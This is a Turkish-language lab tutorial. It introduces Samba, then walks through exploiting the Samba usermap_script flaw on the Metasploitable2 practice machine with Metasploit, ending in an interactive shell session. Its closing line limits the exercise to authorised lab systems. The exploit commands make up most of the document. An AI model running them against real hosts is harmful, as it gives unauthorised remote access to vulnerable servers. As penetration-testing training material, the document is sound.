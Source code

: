 ## 🖥️ SAMBA Nedir?  

**Samba**, Windows 🪟 ile Linux 🐧/Unix sistemleri arasında **dosya 📂 ve yazıcı 🖨️ paylaşımı** yapmayı sağlayan **açık kaynaklı** bir yazılımdır.  

### 🔹 Ne İşe Yarar?
- 💬 **SMB/CIFS** protokolünü kullanarak iki farklı işletim sistemi arasında iletişim sağlar.  
- 📂 Klasör ve dosya paylaşımı yapar.  
- 🖨️ Yazıcı paylaşımını mümkün kılar.  
- 🛡️ Linux sistemini **Windows ağına entegre** eder (dosya sunucusu / domain denetleyicisi gibi).  

### 🔹 Nerede Kullanılır?
- 🏢 Şirket ağlarında  
- 🏠 Ev ağlarında  
- 🔄 Windows + Linux karma ağlarda  

✨ **Kısacası:** Samba, farklı işletim sistemlerini **tek bir ağda uyumlu** hale getirir.

---

## 🛠️ smbd 3.X - 4.X Versiyon Açığı

Metasploitable2’deki Samba sürümünde, **internet araması** ile tespit edilebilen bir güvenlik açığı bulunur.  
Genellikle ilk sonuçlarda **Rapid7** tarafından hazırlanmış bir **Metasploit modülü** yer alır.  

---

### 🚀 Exploit Kullanımı (Metasploit Framework)

1. **Metasploit Framework’ü başlat**  
   Bu komut ile Metasploit konsolunu açıyoruz.
```bash
msfconsole
```

2. **Açığı kullanacak modülü seç**  
   Burada Samba `usermap_script` açığını kullanan exploit modülünü yüklüyoruz.
```bash
use exploit/multi/samba/usermap_script
```

3. **Hedef ve gerekli parametreleri ayarla**  
   - `show targets` → Hedef türlerini gösterir  
   - `set target 0` → Varsayılan hedefi seçer  
   - `show options` → Modülün mevcut ayarlarını listeler  
   - `set rhosts <target ip>` → Hedef IP adresini ayarlar
```bash
show targets
set target 0
show options
set rhosts <target ip>
```

4. **Exploit’i çalıştır**  
   - `-j` → Arka planda (background) çalıştırır  
   - `-z` → Oturumu otomatik olarak kapatmaz
```bash
exploit -j -z
```

5. **Oturumları görüntüle ve bağlan**  
   - `sessions -l` → Açık tüm oturumları listeler  
   - `sessions 1` → 1 numaralı oturuma bağlanır
```bash
sessions -l
sessions 1
```

6. **İşlem bittiğinde çıkış yap**  
   - `background` → Oturumu arka plana alır  
   - `exit` → Metasploit’ten çıkar
```bash
background
exit
```

---

⚠️ **Not:** Bu işlem yalnızca **laboratuvar ortamında** ve **izinli sistemlerde** yapılmalıdır.  
Aksi halde **yasal sorunlar** doğurabilir! 🚫

